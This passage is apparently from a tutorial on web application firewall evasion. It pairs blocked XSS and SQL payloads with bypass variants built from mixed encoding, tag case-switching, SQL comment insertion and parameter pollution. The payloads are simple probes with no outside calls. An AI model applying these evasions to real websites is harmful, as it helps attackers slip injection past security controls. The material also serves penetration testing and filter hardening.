 **How to do it:**  
Combine multiple encoding techniques (e.g., URL encoding and HTML entities) in a single payload to confuse the WAF.

**Blocked original request:**
```bash
<script>alert('XSS')</script>
```

**Updated with mixed encoding:**
```bash
%3Cscript%3Ealert%28%26%2339%3BXSS%26%2339%3B%29%3C%2Fscript%3E
```

## 5. Case Manipulation

**How to do it:**  
Combine uppercase and lowercase characters to create efficient payloads.

**Blocked original request:**
```bash
<script>confirm()</script>
```

**Updated with case-switching:**
```bash
<ScrIpT>confirm()</sCRiPt>
```

## 6. Bypassing Filters with Comments

**How to do it:**  
Insert comments or extraneous characters within the payload to break up the patterns the WAF is looking for.

**Blocked original request:**
```bash
SELECT * FROM users WHERE id=1;
```

**Updated with comments:**
```bash
SELECT/*comment*/ * FROM users WHERE id=1;
```

## 7. Parameter Pollution

**How to do it:**  
Send multiple parameters with the same name in a single request to confuse the WAF or web application.

**Blocked original request:**
```bash
GET /search?q=malicious_query
```

**Updated with parameter pollution:**
```bash
GET /search?q=benign_query&q=malicious_query
```
